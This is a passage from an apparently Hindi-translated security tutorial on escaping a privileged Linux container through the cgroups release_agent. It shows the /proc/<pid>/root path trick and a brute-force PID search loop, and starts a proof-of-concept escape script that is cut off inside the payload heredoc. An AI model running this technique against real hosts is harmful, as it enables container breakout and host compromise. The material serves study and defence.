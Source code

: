 `/proc/<pid>/root` प्रतीकात्मक लिंक का उपयोग किसी भी फाइल के लिए होस्ट सापेक्ष पथ के रूप में किया जा सकता है जो कि एक कंटेनर के भीतर है:Container
```bash
root@container:~$ echo findme > /findme
root@container:~$ sleep 100
```

```bash
root@host:~$ cat /proc/`pidof sleep`/root/findme
findme
```
इससे हमले की आवश्यकता बदल जाती है, जिसमें कंटेनर के होस्ट के सापेक्ष पूर्ण पथ को जानने की बजाय, कंटेनर में चल रही _किसी भी_ प्रक्रिया की pid को जानना पर्याप्त होता है।

### Pid Bashing <a id="pid-bashing"></a>

यह वास्तव में आसान हिस्सा है, Linux में प्रक्रिया आईडी संख्यात्मक होती है और क्रमिक रूप से असाइन की जाती है। `init` प्रक्रिया को प्रक्रिया आईडी `1` असाइन की जाती है और सभी बाद की प्रक्रियाओं को वृद्धिशील आईडी दी जाती है। कंटेनर के अंदर की प्रक्रिया की होस्ट प्रक्रिया आईडी की पहचान करने के लिए, एक ब्रूट फोर्स वृद्धिशील खोज का उपयोग किया जा सकता है:
```text
root@container:~$ echo findme > /findme
root@container:~$ sleep 100
```
मेज़बान
```bash
root@host:~$ COUNTER=1
root@host:~$ while [ ! -f /proc/${COUNTER}/root/findme ]; do COUNTER=$((${COUNTER} + 1)); done
root@host:~$ echo ${COUNTER}
7822
root@host:~$ cat /proc/${COUNTER}/root/findme
findme
```
### सभी चीजों को एक साथ रखते हुए <a id="putting-it-all-together"></a>

इस हमले को पूरा करने के लिए ब्रूट फोर्स तकनीक का उपयोग करके `/proc/<pid>/root/payload.sh` पथ के लिए pid का अनुमान लगाया जा सकता है, प्रत्येक पुनरावृत्ति में अनुमानित pid पथ को cgroups `release_agent` फ़ाइल में लिखा जाता है, `release_agent` को ट्रिगर किया जाता है, और देखा जाता है कि क्या कोई आउटपुट फ़ाइल बनाई गई है।

इस तकनीक के साथ एकमात्र सावधानी यह है कि यह किसी भी तरह से सूक्ष्म नहीं है, और pid की गिनती को बहुत अधिक बढ़ा सकता है। चूंकि कोई भी लंबे समय तक चलने वाली प्रक्रियाएं चलाई नहीं जाती हैं, इसलिए इसे _चाहिए_ कि विश्वसनीयता के मुद्दे पैदा नहीं होंगे, लेकिन इस पर मेरे शब्दों को उद्धृत न करें।

नीचे दिया गया PoC इन तकनीकों को लागू करता है ताकि Felix के मूल PoC में पहली बार प्रस्तुत की गई तुलना में एक अधिक सामान्य हमला प्रदान किया जा सके, जो कि cgroups `release_agent` कार्यक्षमता का उपयोग करके एक विशेषाधिकार प्राप्त कंटेनर से बचने के लिए है:
```bash
#!/bin/sh

OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

```